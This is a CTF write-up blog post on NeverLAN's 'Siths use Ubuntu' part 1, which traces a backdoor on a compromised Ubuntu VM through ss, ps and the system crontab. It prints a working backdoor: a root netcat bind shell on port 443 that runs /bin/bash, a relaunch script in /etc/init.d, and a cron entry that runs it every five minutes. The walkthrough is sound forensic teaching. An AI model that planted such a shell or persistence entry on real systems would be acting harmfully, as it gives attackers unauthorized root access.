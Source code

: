 ```yaml
---
title: NeverLAN - Siths use Ubuntu (Part 1 of 3)
layout: post
date: '2018-02-27 11:51:00'
description: Writeup of Siths use Ubuntu (Part 1 of 3)
image: '/assets/images/logo.png'
tags:
- ctf
- writeup
author: Kauê Doretto
---
```


### Siths use Ubuntu (Part 1 of 3) (125)
>Author: bashninja
>Description: Ok... So the boss of your company has come to the security team with a problem. His "secure" linux box has been hacked. Password is: neverlan
>
>There are 3 things we need you to do. This is part 1.
>
>You've got to figure out how they keep getting in even though we've changed the password.
>
>[neverlan.ova](https://s3-us-west-2.amazonaws.com/neverlanctf/files/neverlan.ova){:target="_blank" rel="noopenner noreferrer"}


---

1.Download the "neverlan.ova" and open it in VirtualBox


2.Login in with the supplied password `neverlan`


3.If the password was changed and `they keep getting in` chances are there is a backdoor. If there's a backdoor, there's a process


4.Open the terminal and run `sudo ss -tlnp`
```
$ sudo ss -tlpn
State      Recv-Q Send-Q                                Local Address:Port                                               Peer Address:Port
LISTEN     0      5                                         127.0.1.1:53                                                            *:*                   users:(("dnsmasq",pid=1026,fd=5))
LISTEN     0      128                                               *:22                                                            *:*                   users:(("sshd",pid=27165,fd=3))
LISTEN     0      5                                         127.0.0.1:631                                                           *:*                   users:(("cupsd",pid=23100,fd=11))
LISTEN     0      1                                                 *:443                                                           *:*                   users:(("nc.traditional",pid=2187,fd=3))
LISTEN     0      128                                              :::22                                                           :::*                   users:(("sshd",pid=27165,fd=4))
LISTEN     0      5                                               ::1:631                                                          :::*                   users:(("cupsd",pid=23100,fd=10))
```

5.Port 443 is a well known port for HTTPS, but a process named `nc.traditional` (PID 2187) is listening there.


6.Let's check the process
```
kyloren@kyloren-ubuntu:~$ sudo ps -p 2187 -u 
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND 
root 2187 0.0 0.0 6496 268 ? S 20:45 0:00 /bin/nc.traditional -l -p 443 -e /bin/bash
```


7.Next we check the parent process that spawned it
```
kyloren@kyloren-ubuntu:~$ sudo ps -l 2187
F S   UID   PID  PPID  C PRI  NI ADDR SZ WCHAN  TTY        TIME CMD
4 S     0  2187  2182  0  80   0 -  1624 inet_c ?          0:00 /bin/nc.traditional -l -p 443 -e /bin/bash

kyloren@kyloren-ubuntu:~$ sudo ps -p 2182 -u
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root      2182  0.0  0.0  19580   316 ?        S    20:45   0:00 /bin/bash /etc/init.d/rebels
```


8.And the file's contents
```
kyloren@kyloren-ubuntu:~$ cat /etc/init.d/rebels 
#!/bin/bash
# The F | L | A | G is: kylo_ren_undercover_boss
if (( `/bin/ps aux | /bin/grep /bin/nc | /usr/bin/wc -l` == 1 )); then /bin/nc.traditional -l -p 443 -e /bin/bash; fi
```


9.Now, I bet you don't want your boss to force-choke you because you said his computer was safe again. It is not. Let's keep going up the process tree
```
kyloren@kyloren-ubuntu:~$ sudo ps -l 2182
F S   UID   PID  PPID  C PRI  NI ADDR SZ WCHAN  TTY        TIME CMD
0 S     0  2182  2181  0  80   0 -  4895 wait   ?          0:00 /bin/bash /etc/init.d/rebels
kyloren@kyloren-ubuntu:~$ sudo ps -l 2181
F S   UID   PID  PPID  C PRI  NI ADDR SZ WCHAN  TTY        TIME CMD
4 S     0  2181  2180  0  80   0 -  1127 wait   ?          0:00 /bin/sh -c /etc/init.d/rebels
kyloren@kyloren-ubuntu:~$ sudo ps -l 2180
F S   UID   PID  PPID  C PRI  NI ADDR SZ WCHAN  TTY        TIME CMD
5 S     0  2180   846  0  80   0 - 14845 wait   ?          0:00 /usr/sbin/CRON -f
kyloren@kyloren-ubuntu:~$ sudo ps -l 846
F S   UID   PID  PPID  C PRI  NI ADDR SZ WCHAN  TTY        TIME CMD
4 S     0   846     1  0  80   0 -  9019 hrtime ?          0:00 /usr/sbin/cron -f
```


So, the backdoor is being spawned by a crontab task:
```
kyloren@kyloren-ubuntu:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/5 *   * * *	root	/etc/init.d/rebels
#
```


Remove the last task and ruin the good guys' day and the Star Wars IX movie.
